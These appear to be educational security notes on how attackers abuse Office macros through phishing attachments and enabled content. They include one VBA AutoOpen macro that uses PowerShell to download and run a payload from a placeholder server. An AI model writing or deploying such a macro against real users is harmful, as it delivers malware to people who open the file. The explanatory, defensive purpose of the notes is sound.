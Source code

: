 ### **Macros in Client-Side Attacks**

While macros offer productivity benefits, they are **infamously exploited by attackers** to execute malicious payloads, leading to **client-side attacks**. These attacks occur when users open compromised files, triggering the malicious macros on the client machine.

---

## 1. **How Attackers Use Macros in Client-Side Attacks**

### **Delivery Mechanism**

- **Social engineering**: Attackers distribute infected documents via **phishing emails**, websites, or social media.
- **Document attachments**: Files in `.docm`, `.xlsm`, or `.pptx` formats are disguised as invoices, resumes, reports, or government forms to lure victims into enabling macros.
- **Weaponized Templates**: Attackers leverage macros embedded in **remote template files**, downloading the real payload when the document opens.

### **Execution Flow:**

1. **Phishing email** with an attachment (Excel, Word, or PowerPoint) sent to the victim.
2. When the user opens the document, a **"Enable Content"** prompt appears, requesting permission to run macros.
3. Once macros are enabled, the malicious code runs, often fetching **second-stage malware** from the internet or executing shell commands directly.

---

## 2. **Examples of Macro-based Payloads**

- **Downloading and Executing Malware:** The macro downloads executables (e.g., ransomware or backdoors) using `WScript` or `PowerShell`.
  Example:
  ```vbnet
  Sub AutoOpen()
      Set objShell = CreateObject("WScript.Shell")
      objShell.Run "powershell.exe -ExecutionPolicy Bypass -Command ""IEX(New-Object Net.WebClient).DownloadString('<http://malicious-server/payload.ps1>')"""
  End Sub
  ```
  **Usage:** This macro runs automatically upon document opening (`AutoOpen`) and uses PowerShell to download and execute a malicious payload.
- **Command and Control (C2) Channels:** Macros can establish connections to **C2 servers** to receive commands or exfiltrate data.
- **Information Stealers:** Some macros execute commands to collect passwords, system information, or browser cookies using PowerShell or system tools.
- **Shellcode Injection:** A macro may decode shellcode and inject it into memory using Windows API calls.

---

